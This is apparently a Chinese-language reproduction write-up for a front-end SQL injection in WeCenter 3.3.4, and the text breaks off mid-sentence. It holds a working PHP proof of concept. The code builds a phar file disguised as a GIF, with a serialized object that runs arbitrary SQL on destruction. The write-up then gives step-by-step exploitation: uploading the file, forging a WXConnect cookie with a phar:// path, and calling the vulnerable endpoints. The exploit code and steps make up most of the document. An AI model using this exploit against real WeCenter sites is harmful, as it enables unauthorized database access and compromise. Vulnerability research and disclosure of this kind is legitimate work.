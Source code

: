 WeCenter 3.3.4 前台sql注入
==========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 任意sql语句执行

**system/aws\_model.inc.php:\_\_destruct()** 方法中存在任意 **SQL**
语句执行。

![](resource/WeCenter3.3.4前台sql注入/media/rId25.png)

### poc

    <?php
    class AWS_MODEL
    {
        private $_shutdown_query = array();

        public function __construct($_shutdown_query)
        {
            $this->_shutdown_query = $_shutdown_query;
        }
    }

    $sql = array('select updatexml(1,concat(0x3a,md5(233),0x3a),1)');
    $evilobj = new AWS_MODEL($sql);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();
    ?>

### 利用

首先注册账号，并利用上面的poc生成Phar文件，并将运行后将生成的`shell.gif`通过编辑器的上传功能上传到服务器上。

![](resource/WeCenter3.3.4前台sql注入/media/rId28.png)

记录下上传后的目录

![](resource/WeCenter3.3.4前台sql注入/media/rId29.png)

#### 生成并设置`COOKIE`中的`WXConnect`值

    <?php
        $arr = array();
        $arr['access_token'] = array('openid' => '1');
        $arr['access_user'] = array();
        $arr['access_user']['openid'] = 1;
        $arr['access_user']['nickname'] = 'naiquan';
        $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
        echo json_encode($arr);
    ?>

将`headimgurl`的值设置成`phar`伪协议解析的恶意文件后运行，将结果放入Cookie中，前缀可参考Cookie中的其他参数。

#### 访问`app/m/weixin.php`下的`binding_action`

![](resource/WeCenter3.3.4前台sql注入/media/rId32.png)

提示绑定微信成功后进行下一步

#### 访问`app/account/ajax.php`下的`synch_img_action`

![](resource/WeCenter3.3.4前台sql注入/media/rId34.png)

任意
